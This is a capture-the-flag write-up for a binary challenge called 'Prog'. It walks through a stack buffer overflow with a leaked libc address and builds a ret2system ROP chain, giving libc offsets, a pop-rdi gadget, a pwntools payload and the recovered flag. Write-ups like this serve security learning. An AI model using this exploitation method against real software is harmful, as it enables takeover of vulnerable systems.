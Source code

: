 # challenge Name: Prog
![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security
`` pwn checkseck poj``
    ![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 not that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

    ![Poj_challenge](../images/poj_exec1.png)
     we have memory leak of write address

    # reverse engineering the program
after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

    ![main_function](../images/main_func_poj.png)
    ![main_function](../images/vuln_func_poj.png)


3. # exploit the BOF:
    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
    ![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gdget  on the libc 
    ```
 # libc.so.6 write = 0xff4d0
libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 
libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 
libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"
pop_rdi_offset =  0x0000000000028215 # found with ropper 
ret_offset =  0x00000000000f35d8 # found with ropper

# Now calculate the PIEBASE
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit:
```
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003
b
```
    ![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3

